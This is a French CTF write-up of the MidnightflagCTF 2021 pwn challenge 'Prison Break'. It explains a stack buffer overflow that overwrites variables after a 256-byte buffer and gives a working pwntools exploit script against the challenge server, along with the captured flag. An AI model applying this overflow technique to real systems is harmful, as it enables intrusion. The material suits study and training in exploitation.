


MCTF2021 - Pwn - Prison Break
MidnightflagCTF2021
Organisé par l’ESN’hack. La CTF c’est déroulée la nuit du 10/04/21 au 11/04/21. Grâce à ABH le pro de l’OSINT, on termine dans le TOP 10 du classement général.

TL;DR
- Décompilation via dans
ghidra - Compréhension du challenge
- Implémentation en python
Task
[Noiche] : J’ai été envoyé au goulag l’année dernière à cause de mes challenges de PWN… Venez m’aider à sortir d’ici et je vous récompenserai :p
Accès au challenge : nc ctf.midnightflag.fr 9021
Décompilation

Pour décompiler le binaire, j’utilise ghidra.

Compréhension
Le but du challenge est de mettre les bonnes valeurs dans les variables suivants le buffer.
Pour obtenir le flag, il faut :
- Se connecter au serveur
- Faire une buffer overflow du tableau de caractères
- Les valeurs à mettre sont :
- 0x1000
- 0x0
- 0xb3350000
- 0xfffffe49
- 0x800
Implémentation
from pwn import *
target = remote("ctf.midnightflag.fr", 9021)
payload = b'A' * 256
payload += p32(0x1000)
payload += p32(0x0)
payload += p32(0xb3350000)
payload += p32(0xfffffe49)
payload += p32(0x800)
target.sendline(payload)
flag = target.recvall().strip().split(b' ')[-1].decode()
log.success(flag)
Flag
MCTF{___1m_fr33_!_1_c4n_m4k3_m0r3_ch4ll5_n0w_!!!___}